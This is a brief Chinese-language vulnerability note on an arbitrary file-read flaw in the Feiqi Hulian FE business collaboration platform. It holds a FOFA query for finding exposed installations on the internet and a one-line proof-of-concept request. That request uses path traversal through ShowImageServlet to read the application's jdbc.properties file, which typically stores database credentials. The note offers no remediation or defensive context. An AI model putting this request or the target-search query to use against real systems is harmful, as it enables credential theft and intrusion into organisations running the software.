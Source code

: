 ## 飞企互联 FE 业务协作平台存在参数文件读取漏洞 

## fofa
```
app="飞企互联-FE企业运营管理平台"
```

## poc
```
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```
